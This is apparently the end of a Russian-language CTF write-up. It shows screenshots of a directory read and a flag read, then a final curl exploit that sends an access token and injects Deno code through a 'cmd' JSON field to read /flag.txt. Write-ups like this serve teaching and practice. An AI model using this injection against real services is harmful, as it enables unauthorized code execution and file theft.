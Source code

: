 ![Successful directory read example](./screenshots/6.png)

После чего остаётся лишь прочитать сам флаг:

![Flag read](./screenshots/7.png)

Итоговый эксплоит:

```sh
curl $TASK_URL -i \
  -H "Monitor-Access-Token: MEGALITH_MONITORING_SYSTEM_EZRVJJCQ4ET3W25BONANMPWPQSRV7JXE" \
  -H "Content-Type: application\json" \
  --data-raw '{"entry": ",/", "cmd": "console.log(new TextDecoder(\"utf-8\").decode(Deno.readFileSync(\"/flag.txt\")))"}'
```
